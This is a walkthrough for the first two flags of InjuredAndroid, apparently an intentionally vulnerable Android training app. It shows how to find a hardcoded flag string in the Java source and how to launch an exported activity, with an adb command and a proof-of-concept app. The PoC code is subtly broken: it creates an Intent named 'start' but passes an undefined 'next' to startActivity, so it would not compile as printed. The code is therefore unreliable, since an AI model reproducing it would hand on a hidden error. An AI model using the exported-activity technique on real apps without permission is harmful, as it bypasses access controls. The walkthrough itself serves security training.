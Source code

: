 ## InjuredAndroid walk-throughs

### Flag 1 - F1ag_0n3

1. Review source code and find the comparison string.

```java
if (post.equals("F1ag_0n3")) {
            Intent intent = new Intent(this, FlagOneSuccess.class);
            FlagsOverview.flagOneButtonColor = true;
            SharedPreferences.Editor editor = settings.edit();
            editor.putBoolean("flagOneButtonColor", true).commit();
            startActivity(intent);
        }
```

2. Submit the comparison string to score.

---

### Flag 2 - S3cond_F1ag

1. Invoke exported activity with adb or PoC app. (PoC app will help with later exercises)

```bash
adb shell am start -n b3nac.injuredandroid/.b25lActivity

```

```java
package b3nac.injuredandroid.poc;

import androidx.appcompat.app.AppCompatActivity;
import android.content.Intent;
import android.os.Bundle;

public class MainActivity extends AppCompatActivity {

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        Intent start = new Intent();
        start.setClassName("b3nac.injuredandroid", "b3nac.injuredandroid.b25lActivity");
        startActivity(next);
    }

}

```

This flag is intended to introduce how starting exported activities work.

---